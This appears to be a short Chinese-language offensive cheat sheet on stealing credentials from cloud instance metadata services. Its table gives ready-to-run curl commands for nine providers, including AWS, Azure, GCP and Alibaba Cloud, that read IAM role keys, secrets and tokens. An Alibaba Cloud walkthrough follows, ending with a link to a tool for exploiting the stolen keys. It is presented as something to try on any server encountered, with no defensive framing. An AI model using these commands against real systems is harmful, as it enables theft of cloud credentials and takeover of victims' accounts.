

<!--more--> 
遇到了就测一下，如果出现可以获取as

# 常见云厂商的元数据地址
| 云厂商 | 元数据地址 | 列出元数据目录（curl） | 获取角色 / 凭证（curl） |
| --- | --- | --- | --- |
| **阿里云** | `http://100.100.100.200` | `curl http://100.100.100.200/latest/meta-data/` | `curl http://100.100.100.200/latest/meta-data/ram/security-credentials/` |
| **腾讯云** | `http://metadata.tencentyun.com` | `curl http://metadata.tencentyun.com/latest/meta-data/` | `curl http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/` |
| **华为云** | `http://169.254.169.254` | `curl http://169.254.169.254/openstack/latest/meta_data.json` | `curl http://169.254.169.254/openstack/latest/securitykey` |
| **AWS（亚马逊云）** | `http://169.254.169.254` | `curl http://169.254.169.254/latest/meta-data/` | `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` |
| **Azure（微软云）** | `http://169.254.169.254` | `curl -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"` | `curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"` |
| **GCP（谷歌云）** | `http://metadata.google.internal` | `curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/` | `curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/` |
| **京东云** | `http://169.254.169.254` | `curl http://169.254.169.254/latest/meta-data/` | `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` |
| **火山引擎** | `http://100.96.0.96` | `curl http://100.96.0.96/latest/meta-data/` | `curl http://100.96.0.96/latest/meta-data/iam/security-credentials/` |
| **天翼云** | `http://169.254.169.254` | `curl http://169.254.169.254/latest/meta-data/` | `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` |


# 效果
面对服务器先去判断是什么厂商的，可以去fofa或者微步社区搜索IP都行。

这里演示的是阿里云的，先使用`curl http://100.100.100.200/latest/meta-data/`查看目录，

发现这里没有`ram`的接口提示，说明没有身份获取。



阿里云官方提示如果执行了`curl http://100.100.100.200/latest/meta-data/ram/security-credentials/`可以得到以下结果。

```json
{
    "AccessKeyId": "****",
    "AccessKeySecret": "****",
    "Expiration": "2024-11-08T09:44:50Z",
    "SecurityToken": "****",
    "LastUpdated": "2024-11-08T03:44:50Z",
    "Code": "Success"
}
```

拿到之后就可以使用工具：[https://github.com/wyzxxz/aksk_tool](https://github.com/wyzxxz/aksk_tool)，进行后续利用了。

